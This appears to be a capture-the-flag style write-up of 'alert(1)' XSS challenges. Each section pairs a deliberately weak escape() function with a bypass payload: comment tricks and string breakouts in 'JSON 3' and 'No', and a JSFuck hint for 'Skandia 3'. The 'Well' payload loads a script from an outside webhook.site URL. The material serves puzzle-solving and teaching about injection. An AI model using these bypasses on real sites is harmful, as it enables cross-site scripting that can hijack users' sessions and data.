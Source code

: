 ## JSON 3
```js
function escape(s) {
  return s.split('#').map(function(v) {
      // Only 20% of slashes are end tags; save 1.2% of total
      // bytes by only escaping those.
      var json = JSON.stringify(v).replace(/<\//g, '<\\/');
      return '<script>console.log('+json+')</script>';
      }).join('');
}
```
Payload: `<!--<script>#)/|alert(1)//-->` thank to `https://github.com/yangfan9702/alert-1-to-win#a015`

## Skandia 3
```js
function escape(s) {
  if (/[\\<>]/.test(s)) return '-';

  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```
Payload: `Thank to JSFUCK`  
  
## RFC4627
> TODO

## Well
```js
function escape(s) {
  http://www.avlidienbrunn.se/xsschallenge/

  s = s.replace(/[\r\n\u2028\u2029\\;,()\[\]<]/g, '');
  return "<script> var email = '" + s + "'; <\/script>";
}
```
Payload: ``'+`${a=document.createElement`script`}`+`${a.src="https://webhook.site/ac338d4d-43df-4766-8106-25b72c21400b"}`+document.body.append`${a}`+'//url return js code alert with 1 as number``  
  
## No
```js
// submitted by Stephen Leppik

function escape(s) {
    s = s.replace(/[()`<]/g, ''); // no function calls

    return '<script>\n' +
           'var string = "' + s + '";\n' +
           'console.log(string);\n' +
           '</script>';
}
```
Payload: `";document.body.innerHTML="\x3cimg src=x onerror='alert\x281\x29' />";//`  
